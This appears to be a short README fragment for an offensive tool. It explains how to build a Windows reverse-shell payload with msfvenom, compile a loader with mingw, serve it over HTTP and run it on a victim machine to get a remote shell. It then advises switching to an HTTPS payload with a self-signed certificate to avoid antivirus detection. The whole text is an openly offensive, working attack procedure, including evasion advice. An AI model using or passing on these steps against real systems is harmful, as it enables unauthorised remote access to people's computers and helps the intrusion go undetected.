 >To make this work,create a msfvenom payload.

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw >beacon.bin

>Compile .cpp using the command:- x86_64-w64-mingw32-g++ --static -o pay.exe simple.cpp -fpermissive -lws2_32

>Host the payload file using a http server :- python3 -m http.server


>Run the binary on the victim to get a call back.

>The payload will get detected after a while,make sure to use https encrypted payload.

>create your own ssl self signed certificate to use it for the https reverse payload ,since the one used by metasploit is signatured.
